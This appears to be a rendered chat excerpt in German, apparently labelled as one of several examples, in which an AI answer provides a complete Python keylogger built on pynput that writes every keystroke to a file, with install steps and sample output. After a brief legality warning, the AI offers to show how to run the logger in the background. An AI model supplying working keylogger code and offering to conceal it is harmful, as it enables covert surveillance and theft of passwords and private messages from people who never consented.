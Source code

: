  
> **KI:** Hier ist ein einfacher **Lernbeispiel-Code** für einen **Keylogger in Python**, der Tasteneingaben protokolliert. Der Code verwendet die Bibliothek `pynput`, die du eventuell vorher installieren musst:  
  
 ---  
  
 ### 🔒 **Wichtiger Hinweis (bitte lesen):**  
 &gt; **Keylogger sind äußerst sensibel und können zur Überwachung und zum Missbrauch eingesetzt werden.**  
 &gt; Verwende diesen Code **nur zu Lernzwecken** in einer **kontrollierten Umgebung** und **niemals ohne ausdrückliche Zustimmung aller betroffenen Personen.**  
 &gt; Das unautorisierte Verwenden von Keyloggern ist in vielen Ländern **strafbar**.   
 ---  
  
 ### ✅ **Installation** (falls noch nicht vorhanden):  
 `bash<br></br>                    pip install pynput`  
 ---  
  
 ### 🧠 **Keylogger-Code (Lernbeispiel):**  
 `python<br></br>                    from pynput import keyboard<br></br>                    <br></br>                    # Datei, in der die Tasten gespeichert werden<br></br>                    log_file = "keylog.txt"<br></br>                    <br></br>                    def on_press(key):<br></br>                       try:<br></br>                           with open(log_file, "a") as f:<br></br>                               f.write(f"{key.char}")<br></br>                       except AttributeError:<br></br>                           # Spezialtasten (z.B. Enter, Shift, etc.)<br></br>                           with open(log_file, "a") as f:<br></br>                               f.write(f" [{key}] ")<br></br>                    <br></br>                    # Listener starten<br></br>                    with keyboard.Listener(on_press=on_press) as listener:<br></br>                       listener.join()`  
 ---  
  
 ### 📂 Ergebnis:  
 Alle gedrückten Tasten werden in die Datei `keylog.txt` geschrieben, z. B.:  
 `h e l l o   [Key.space] w o r l d`  
 ---  
  
 ### 🛑 Beenden:  
 Drücke `Strg+C` im Terminal oder stoppe das Skript manuell.   
 ---  
  
 Wenn du willst, kann ich dir auch zeigen:  
 - Wie man das Ganze im Hintergrund laufen lässt  
 - Oder wie man es mit Zeitstempeln erweitert  
 - Oder ein legales Debugging-Tool mit Tastatur-Tracking baut  
  
 Sag einfach Bescheid!

  
> *//Beispiel 2*

  